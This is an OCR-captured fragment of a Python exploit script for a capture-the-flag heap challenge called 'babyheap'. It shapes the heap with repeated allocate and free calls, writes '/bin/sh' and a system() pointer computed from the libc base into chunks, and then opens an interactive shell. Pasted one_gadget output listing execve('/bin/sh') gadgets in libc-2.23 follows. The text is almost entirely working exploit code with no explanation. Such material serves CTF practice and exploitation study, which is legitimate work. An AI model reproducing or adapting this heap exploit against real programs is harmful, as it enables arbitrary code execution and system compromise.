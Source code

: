 ```python
#delete(11)
delete(12)
#delete(13)
#delete(14)
#add(0x48,p64(0x1234))
#add(0x48,p64(0x1234))
add(0x48,p64(0x1234))
add(0x48,p64(0x1234))
add(0x48,p64(0x1234))
add(0x48,p64(0x1234))
add(0x48,p64(0x1234))
add(0x48,p64(0x1234))
add(0x48,p64(0x1234))

#add(0x38,p64(0x1234))
#add(0x48,p64(0x1234))
#add(0x58,p64(0x1234))


for i in range(0,3):
            delete(i)
delete(6)
delete(5)
for i in range(7,8):
            delete(i)
delete(10)
#delete(12)

#delete(14)
#delete(1)

system=libc+259408
#add(0x58,p64(0x1234))
add(0x58,p64(0x1234))
add(0x58,"/bin/sh\x00")
add(0x58,"/bin/sh\x00")
add(0x38,"/bin/sh\x00")
add(0x38,"/bin/sh\x00")
add(0x38,p64(0)*5+p64(system))
#add(0x38,p64(0x1234))
#add(0x38,p64(0x1234))
delete(6)

p.interactive()


'''
root@59b9934cad24:/ctf/work/babyheap# one_gadget -l1 libc-2.23.so 
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
      rax == NULL

      0x4526a execve("/bin/sh", rsp+0x30, environ)
      constraints:
            [rsp+0x30] == NULL

            0xcd0f3 execve("/bin/sh", rcx, r12)
            constraints:
                  [rcx] == NULL || rcx == NULL
                    [r12] == NULL || r12 == NULL

                    0xcd1c8 execve("/bin/sh", rax, r12)
                    constraints:
```
